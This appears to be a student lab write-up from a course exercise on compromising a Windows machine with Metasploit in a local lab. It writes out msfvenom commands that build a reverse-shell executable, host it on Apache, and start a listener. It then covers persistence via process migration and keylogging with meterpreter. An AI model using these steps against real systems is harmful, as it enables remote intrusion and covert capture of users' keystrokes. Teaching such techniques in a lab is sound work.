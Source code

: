 # Compromising-windows-using-Metasploit

## Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DEVOLOPED BY:212223240106
## REGISTER NUMBER:S.NAVEEN

## DESIGN STEPS:
Step 1:
Install kali linux either in partition or virtual box or in live mode

Step 2:
Investigate on the various categories of tools as follows:

Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e3b4e8ad-0744-41da-bf0e-00af2819b316)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e5f93487-fe4d-4ca2-ae87-40528759b8ca)


copy the fun.exe into the apache /var/www/html folder

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a7061eec-78cb-4924-8bfd-750819217ae4)

Start apache server sudo systemctl apache2 start

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/94f19b88-677c-4e52-9f3e-9c0692c1b517)

Check the status of apache2

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/b0acfb58-3df4-4054-94b9-cbee552a7016)

Invoke msfconsole:

### OUTPUT:
msfconsole

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/44262e98-e486-48b5-ac0b-a46ce64aea0e)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/df212ae7-e067-4020-8c25-1c0aa43b59e7)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/8e273f1c-0127-4bf3-84fb-fb78e9c6ac90)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/70a3b4d8-0dcc-4370-9fcd-2c3677d0895e)

Bypass any warning boxes, double-click the file, and allow it to run. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e8a7eea1-3cc6-4ecb-958f-fde637a7fae8)

On kali give the command exploit 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/65425abf-0758-4378-8135-3ff71f48e582)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/5d0014c5-4c05-4600-9961-06a15007e0f3)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/f67156a4-303a-46e8-988b-f6cfedf969a8)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e6b6fbc1-4c4c-4e14-a3d8-10249cff2969)

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a33bbc37-38ac-45b3-b0a3-fd26b82ed9ab)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/4f311cb3-83cd-4564-a90b-590e1397a284)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
